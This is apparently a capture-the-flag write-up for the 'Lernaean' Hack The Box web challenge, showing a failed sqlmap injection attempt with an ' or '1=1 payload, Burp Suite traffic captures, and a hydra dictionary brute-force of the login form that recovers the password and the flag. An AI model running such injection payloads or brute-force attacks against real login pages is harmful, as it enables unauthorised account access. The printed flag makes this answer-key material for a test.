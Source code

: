 # WEB CHALLENGE: LERNAEAN

## Challenge Description
Your target is not very good with computers. Try and guess their password to
see if they may be hiding anything!

```
host: 88.198.233.174 port:33971
```

```
    <html>
    <head>
        <title>Login - Lernaean</title>
    </head>
    <body style="background-color: #cd4e7b;">
        <center>
            <br><br><br>
            <h1><u>Administrator Login</u></h1>
            <h2>--- CONFIDENTIAL ---</h2>
            <h2>Please do not try to guess my password!</h2>
            <form method="POST">
                <input type="password" name="password"><br><br>
                <input type="submit" value="Submit">
            </form>
        </center>
    </body>
    </html>
```

### SQLMAP
Let's try SQLMAP to see if SQL injection might work (turns out it doesn't)..

```
$ sqlmap -u http://88.198.233.174:33971/ --data="password=' or '1=1" --tamper=space2comment
```
### BURPSUITE
Let's see if we can examine the HTTP traffic between us and the server by using
burpsuite as our browser proxy to understand what is being passed around..

```
<REQUEST>
POST / HTTP/1.1
Host: 88.198.233.174:33971
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://88.198.233.174:33971/
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 13

password=test
</REQUEST>

<RESPONSE>
HTTP/1.1 200 OK
Date: Thu, 30 Nov 2017 18:32:43 GMT
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 474
Connection: close
Content-Type: text/html; charset=UTF-8

Invalid password!
</RESPONSE>
```

Okay.. that tells us that `password` is the variable being passed to the server.

### WIRESHARK
Let's use wireshark just to confirm what is happening..

```
$ sudo wireshark -i eth0 -k
```

```
SOURCE: 10.0.2.15 DESTINATION: 88.198.233.174 PROTOCOL: HTTP INFO: POST / HTTP1.1 (application/x-www-form-urlencoded)

HTML Form URL Encoded: application/x-www-form-urlencoded
  Form item: "password" = "test"
    Key: password
    Value: test
```

### HYDRA
Okay.. now let's try using `hydra` to mimic these requests and brute force our
way through a dictionary attack..

```
$ hydra 88.198.233.174 -s 33971 http-form-post "/:user=^USER^&password=^PASS^:Invalid password!" -l user -P /usr/share/wordlists/rockyou.txt
```

```
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2017-11-30 17:13:03
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://88.198.233.174:33971//:user=^USER^&password=^PASS^:Invalid password!
[33971][http-post-form] host: 88.198.233.174   login: user   password: leonardo
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2017-11-30 17:13:41
```

Weeeeeeee! Looks like we found a valid password.

### LOOKING FOR THE FLAG
Trying the password we found on the form gives us a `Ooops! Too slow` response
on this page: `http://88.198.233.174:33971/noooooooope.html`..

.. but if we use burpsuite to analyze the response from the server, we find
some hidden info..

```
<RESPONSE>
HTTP/1.1 200 OK
Date: Thu, 30 Nov 2017 22:17:03 GMT
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 618
Connection: close
Content-Type: text/html; charset=UTF-8

<h1 style='color: #fff;'>HTB{l1k3_4_b0s5_s0n}</h1><script type="text/javascript">
                   window.location = "noooooooope.html"
              </script>
</RESPONSE>
```
